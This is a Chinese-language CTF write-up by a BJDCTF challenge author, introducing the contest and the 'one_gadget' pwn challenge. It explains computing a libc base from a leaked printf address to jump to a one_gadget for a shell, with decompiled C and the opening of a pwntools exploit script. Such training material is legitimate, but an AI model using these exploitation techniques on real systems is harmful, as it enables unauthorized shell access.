 # 前言

最为第一届BJDCTF的参赛选手和本届比赛的二进制出题人+运维，真心祝愿BJDCTF越办越好！（说多了怕被打）

![](http://image.taqini.space/img/ctr.jpg)

还是要啰嗦一句，本次BJDCTF为七校联盟**萌新赛**，同时在BUUCTF对外开发，感谢赵师傅的大力支持，以及各位外校师傅的捧场。

第一次出题，pwn貌似出难了，其实主要是想考察下linux基础，在这里给各位萌新们道歉啦。

<img src="http://image.taqini.space/img/sorry.jpg" style="zoom:40%;" />

不过还是希望大家能打下坚实的linux基础~

> p.s. ret2text3,4&YDS是[芝士](https://nightrainy.github.io/)师傅出的，算账不要来找我鸭

## 一把梭(one_gadget) - TaQini

考察点：one_gadget

题目给出了`printf`的地址，由此可算得libc基址，然后找`one_gadget`、计算libc中`one_gadget`地址

```c
  printf("Give me your one gadget:");
  __isoc99_scanf("%ld", &v4);
  v5 = v4;
  v4();
```
`v4`是个函数指针，`scanf`的时候把`one_gadget`转成十进制输入即可getshell。

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './one_gadget'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = './libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
```